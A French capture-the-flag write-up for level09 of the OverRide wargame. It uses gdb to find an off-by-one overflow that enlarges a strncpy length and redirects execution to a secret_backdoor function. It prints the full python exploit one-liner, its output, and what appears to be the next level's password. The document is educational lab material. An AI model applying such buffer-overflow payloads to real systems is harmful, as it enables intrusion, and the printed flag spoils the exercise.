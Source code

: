 Partial RELRO
No canary found
NX enabled
PIE enabled
No RPATH
No RUNPATH

Pour trouver rapidement l'addresse de base:
(gdb) b *handle_msg+95
(gdb) i r 
-> %rax contiendra notre addresse
ici pour exemple on prend 0x7fffffffe3f0

0x7fffffffe3f0: copie du message (strncpy)
0x7fffffffe3f0+140: copie du username (41 caracteres)
0x7fffffffe3f0+180: longueur strncpy

Le message a une limite de 1024 caracteres.
strncpy copie le message (fgets) jusqu'a une longueur de msg_buffer+180.
(gdb) x/wd 0x7fffffffe3f0+180
0x7fffffffe4a4: 10 // Donc 10 caracteres par defaut

La copie du username contient une erreur. 1 octets en plus est copie et overflow sur 0x7fffffffe3f0+180.

Donc si username <- "A"*40 + "\xff" (255).
Cela ecrasera la longueur initiale, et copiera 255.
Pour preuve, le programme segfault, il y a donc quelque chose a faire.

Le buffer est initialise dans handle_msg(), si on breakpoint dedans, on constate que l'on a reussi a modifier son saved-rip.
Avec un overflow pattern, on trouve l'offset 200.

secret_backdoor(): 0x000055555555488c

(python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat)

Cela fonctionne !

level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end

j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE




----------------------------------------
PIE etait active, pourquoi les addresses n'ont pas changes une fois sorti de GDB ?
La randomisation de PIE depend de l'activation de l'ASLR, verifions s'il est activer avec cette commande:
level09@OverRide:~$ cat /proc/sys/kernel/randomize_va_space
0

0 signifie que l'ASLR n'est pas active sur le Systeme.
Un binaire compile avec le flag PIE est donc pres a la randomisation sur un systeme avec l'ASLR, mais PIE ne fera rien sans ASLR.